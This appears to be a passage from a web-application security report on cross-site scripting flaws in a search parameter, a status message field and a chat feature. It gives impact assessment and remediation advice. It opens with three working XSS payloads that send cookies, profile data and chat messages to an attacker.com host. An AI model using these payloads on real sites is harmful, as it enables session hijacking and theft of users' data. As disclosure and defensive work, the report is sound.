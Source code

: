 ## Exploitation Proof of Concept

### PoC 1: Session Stealing via Search

```html
';fetch('https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie))//
```

### PoC 2: Data Exfiltration via Status Message

```html
<svg><animate onbegin="fetch('/api/user/profile').then(r=>r.json()).then(d=>fetch('https://attacker.com/steal?data='+btoa(JSON.stringify(d))))" attributeName=x>
```

### PoC 3: DOM Manipulation via Stored XSS

```html
<svg><animate onbegin="document.querySelector('#chatSubmit').onclick=function(){fetch('https://attacker.com/log?msg='+encodeURIComponent(document.querySelector('#chatInput').value))}" attributeName=x>
```

## Impact Assessment

### Affected Users/Roles

- All users can be victims of the search parameter XSS
- Administrators viewing user profiles can be compromised by status message XSS
- Potential for privilege escalation if admin sessions are compromised

### Data Exposure Risk

- User session cookies can be stolen, leading to account takeover
- Private chat histories could be exfiltrated
- Personal information in user profiles could be accessed

### Attack Scenarios

- Attacker creates malicious search links and distributes via social media
- Attacker sets malicious status message and reports issue to admin, compromising admin session
- Attacker could create self-propagating worm by forcing victims to update their own status messages

## Remediation Recommendations

### Immediate Fixes

- Properly escape user input in JavaScript contexts using appropriate encoding
- Update DOMPurify configuration to block SVG animation events
- Implement proper output encoding based on context (HTML, JS, attribute)
- Fix null byte handling in input sanitization
